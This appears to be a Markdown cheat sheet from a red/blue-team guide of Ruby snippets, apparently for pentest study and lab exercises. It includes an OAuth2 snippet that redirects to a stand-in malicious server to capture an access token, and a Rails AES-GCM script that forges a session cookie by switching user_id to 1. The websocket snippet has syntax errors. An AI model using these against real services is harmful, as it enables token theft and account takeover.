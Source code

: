 ## CODE EXAMPLES
1. [DECODING](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#decoding)
2. [WEBSERVER](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#webserver)
3. [OAUTH2 TOKEN](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#oauth2-token)
4. [PROXY](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#proxy)
5. [RUBY ON RAILS: AES-GCM SIGNED SESSION](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#ruby-on-rails-aes--gcm-signed-session)
6. [WEBSOCKET](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#websocket)
7. [ZLIB](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#zlib)

<br />

### DECODING
- URL-Decode in Ruby: `require 'uri'; URI.decode("http%3A%2F%2Fexample.com%2F%3Fa%3Druby%20uri%20decode")`

<br />

### WEBSERVER
- `ruby -run -ehttpd . -p3000`: on port 3000

### OAUTH2 TOKEN 
- Firstly, `gem install oauth2`
```
require 'oauth2'

callback = "http://yourMaliciousServer.com"
app_id = " "

secret = " "
client = OAuth2::Client.new(app_id, secret, site: "http://authorization-server.com")
client.auth_code.authorize_url(redirect_uri: callback)


code = " "
access = client.auth_code.get_token( code, redirect_uri: callback)
access.get("/api/user").parsed

puts access.token
```

<br />

### PROXY
- More Advanced: [https://gist.github.com/jhnbwrs/dff50c0c9515f2358ac0](https://gist.github.com/jhnbwrs/dff50c0c9515f2358ac0)
```
# REQ: sudo gem install sinatra

require 'net/http'
require 'uri'
require 'sinatra'

set :port, 4444
set :bind, '0.0.0.0'

get '/' do
  uri = URI("http://...")
  resp = Net::HTTP.get_response(uri)
  loc = resp.header['location']
  text = "Hello Visitor!"
end
```

### RUBY ON RAILS: AES-GCM SIGNED SESSION 
- Helpful: [https://emanual.github.io/ruby-docs](https://emanual.github.io/ruby-docs/classes/OpenSSL/Cipher/CipherError.html)
```
require 'uri'
require 'cgi'
require 'base64'
require 'openssl'

cookie = URI.decode("iowp3WAChN4G....TmF9TMUgkDepg%3D--xguco..6khpC--wdizT8Aw..3D%3D")

def secret()
    secret = Digest::MD5.hexdigest("PentesterLab::Application")
    OpenSSL::PKCS5.pbkdf2_hmac_sha1(secret, "authenticated encrypted cookie", 1000, 32)
    end

def decrypt(cookie)
    cipher = OpenSSL::Cipher.new("aes-256-gcm")
    encrypted_data, iv, auth_tag = cookie.split("--".freeze).map { |v| ::Base64.strict_decode64(v) }
    cipher.decrypt
    cipher.key = secret()
    cipher.iv  = iv
    cipher.auth_tag = auth_tag
    cipher.auth_data = ""
    decrypted_data = cipher.update(encrypted_data) + cipher.final
    end

def encrypt(string)
    cipher = OpenSSL::Cipher.new("aes-256-gcm")
    cipher.encrypt
    cipher.key = secret()
    iv = cipher.random_iv
    cipher.auth_data = ""
    encrypted_data = cipher.update(string) + cipher.final
    blob = "#{::Base64.strict_encode64 encrypted_data}--#{::Base64.strict_encode64 iv}"
    blob = "#{blob}--#{::Base64.strict_encode64 cipher.auth_tag}"
    blob
    end

string = decrypt(cookie)
string = string.sub! '"user_id":2', '"user_id":1'
puts CGI.escape(encrypt(string))


# Example string = {"session_id":"7ee48973...952f595","_csrf_token":"+UV6rbAMo6QW...6lAGP8=","user_id":1}
# Output: 6k5xPNUYdUbZX9eH...BGZ%2BfyPvi9CU%2BZOD5qKVc%3D--61raV%2BxHyFVR4Rv3--KiSR%2F9hZqMfntNewcCm9kQ%3D%3D
```

## WEBSOCKET
```
#REQ gem install websocket-eventmachine-client

require 'websocket-eventmachine-client'

EM.run
  ws = WebSocket::EventMachine::Client.connect(uri: 'ws://example.com')
  ws.onopen do
    send.("key")
  end
  ws.onmessage do |msg, type|
    puts msg
  end
end
```

## ZLIB
- Decompress data
```
require 'zlib'

z = Zlib::Inflate.new
data = z.inflate File.read("yourfile")
puts data
```
